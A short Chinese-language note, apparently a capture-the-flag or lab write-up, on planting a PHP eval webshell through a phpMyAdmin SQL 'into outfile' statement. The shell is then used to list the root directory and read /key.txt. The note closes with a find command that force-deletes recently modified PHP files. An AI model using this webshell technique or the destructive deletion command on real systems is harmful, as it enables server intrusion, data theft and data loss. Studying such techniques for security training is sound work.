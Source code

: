 # phpmyadmin

### 1、执行sql语句挂入一句话木马

```
select '  <?php @eval($_POST[attack]);?>'  into outfile '/var/www/html/3.php'
```

### ![image-20220224204113298](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202242041386.png)2、访问3.php 利用木马

```
attack= system('ls /');
```

![image-20220224204055693](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202242041893.png)

### 3、查看key.txt

```
attack= system('cat /key.txt');
```

![image-20220224204301454](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202242043541.png)







```
  find  /var/www/html/ -mtime  2 -name "*.php"  -exec  rm -rf {} \;
```

